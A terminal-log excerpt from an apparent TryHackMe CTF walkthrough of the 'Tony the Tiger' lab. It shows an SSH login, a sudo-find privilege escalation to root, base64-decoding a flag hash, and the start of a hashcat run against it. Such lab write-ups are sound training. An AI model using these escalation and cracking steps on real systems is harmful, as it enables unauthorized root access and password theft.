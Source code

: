 ```
bibo318@parrot:~/CTFs/tryhackme/Tony the Tiger/jboss$ ssh jboss@10.10.179.44
The authenticity of host '10.10.179.44 (10.10.179.44)' can't be established.
ECDSA key fingerprint is SHA256:4QLWqzX1KRYhF9PwQBGqNaH5mOk6uuV8QwfHDP7Wgqk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.179.44' (ECDSA) to the list of known hosts.
jboss@10.10.179.44's password:
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
jboss@thm-java-deserial:~$ pwd
/home/jboss
jboss@thm-java-deserial:~$ ls
note
jboss@thm-java-deserial:~$ sudo -l
Matching Defaults entries for jboss on thm-java-deserial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jboss may run the following commands on thm-java-deserial:
    (ALL) NOPASSWD: /usr/bin/find
jboss@thm-java-deserial:~$ sudo find . -exec /bin/bash \; -quit
root@thm-java-deserial:~# cd /root
root@thm-java-deserial:/root# ls
root.txt
root@thm-java-deserial:/root# cat root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
root@thm-java-deserial:/root# cat root.txt | base64 -d
BC77AC072EE30E3760806864E234C7CF
```

```
bibo318@parrot:~/CTFs/tryhackme/Tony the Tiger$ hashcat -a 0 -m 0 BC77AC072EE30E3760806864E234C7CF /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
```